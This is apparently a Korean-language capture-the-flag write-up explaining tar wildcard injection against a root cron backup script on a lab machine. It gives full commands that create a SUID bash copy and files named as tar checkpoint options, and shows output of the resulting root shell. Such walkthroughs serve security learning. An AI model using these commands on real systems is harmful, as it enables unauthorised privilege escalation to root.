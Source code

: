 ```yaml
---
layout: page
title: Wildcard_Injection
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


`root` 권한으로 실행되는 `backup.sh` 스크립트가 `tar` 명령어와 함께 와일드카드(`*`)를 안전하지 않은 방식으로 사용하기 때문입니다. 셸(Shell)은 `*`를 현재 디렉토리의 모든 파일 및 디렉토리 이름으로 확장(expand)하여 `tar` 명령어에 인수로 전달합니다. 만약 파일 이름이 `-` 또는 `--`로 시작한다면, `tar` 명령어는 이를 파일 이름이 아닌 **옵션**으로 인식하게 됩니다.

`www-data` 사용자는 `/var/www/html` 디렉토리에 파일을 생성할 권한이 있으므로, 이 점을 악용하여 악의적인 파일 이름을 생성하고 `root` 권한으로 원하는 명령을 실행할 수 있습니다.

---

#### 1. 공격 페이로드 스크립트 생성

먼저, `root` 권한으로 실행할 명령이 담긴 셸 스크립트를 `/var/www/html` 디렉토리에 생성합니다. 여기서는 간단하게 `www-data` 사용자에게 `root` 권한을 부여하기 위해 SUID를 설정한 `bash` 셸 복사본을 만드는 예시를 사용하겠습니다.

```bash
cd /var/www/html
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > exploit.sh
chmod +x exploit.sh
```

- `exploit.sh`: `/bin/bash`를 `/tmp/rootbash`로 복사하고, SUID 비트를 설정하여 어떤 사용자든 `root` 권한으로 실행할 수 있게 만드는 스크립트입니다.


#### 2. `tar` 옵션으로 인식될 파일 생성

이제 `tar` 명령어가 옵션으로 인식하도록 특수하게 조작된 이름의 파일들을 생성합니다.


```bash
touch -- "--checkpoint-action=exec=sh exploit.sh"
touch -- "--checkpoint=1"
```

- `--checkpoint=1`: `tar`가 1개의 파일을 처리할 때마다 체크포인트에 도달했음을 알립니다.

- `--checkpoint-action=exec=./exploit.sh`: 체크포인트에 도달했을 때 실행할 동작을 지정합니다. 여기서는 우리가 만든 `exploit.sh` 스크립트를 실행하도록 설정합니다.

- `sh` `파일 이름` 사이에 공백이 있어야 하며, 그렇지 않으면 `tar` 명령을 잘못 읽고(예: `shexploit.sh`) 아무 일도 일어나지 않습니다.

`--`를 앞에 붙이는 이유는 `touch` 명령어가 `-`로 시작하는 파일명을 옵션으로 착각하지 않고 파일 이름으로 올바르게 생성하도록 하기 위함입니다.

#### 3. 대기 및 권한 상승 확인

이제 모든 준비가 끝났습니다. `cron`에 의해 `backup.sh` 스크립트가 `root` 권한으로 실행될 때까지 기다립니다.

스크립트가 실행되면 다음과 같은 과정이 발생합니다.

1. `cd /var/www/html` 실행

2. `tar cf /home/milesdyson/backups/backup.tgz *` 실행

3. `*`가 확장되어 `tar cf ... --checkpoint=1 --checkpoint-action=exec=./exploit.sh exploit.sh` 와 같은 형태로 명령어가 구성됩니다.

4. `tar`는 이 파일들을 백업하려다 `--checkpoint` 옵션을 만나고, 첫 번째 파일을 처리한 후 `--checkpoint-action`에 지정된 `sh exploit.sh`를 **root 권한으로 실행**합니다.


`cron` 작업이 실행된 후, `/tmp` 디렉토리를 확인하고 생성된 SUID 셸을 이용하여 `root` 권한을 획득합니다.


```bash
www-data@skynet:/var/www/html$ ls -l /tmp/rootbash
-rwsr-sr-x 1 root root 1113504 Aug 31 08:00 /tmp/rootbash  # SUID 비트(s)가 설정됨
www-data@skynet:/var/www/html$ /tmp/rootbash -p
rootbash-5.0# id
uid=1002(www-data) gid=1002(www-data) euid=0(root) groups=1002(www-data)
rootbash-5.0# whoami
root
```

- `-p` 옵션: 유효 UID(euid)가 실제 UID(uid)와 다를 때, 권한을 그대로 유지한 채 셸을 실행하기 위해 사용합니다.
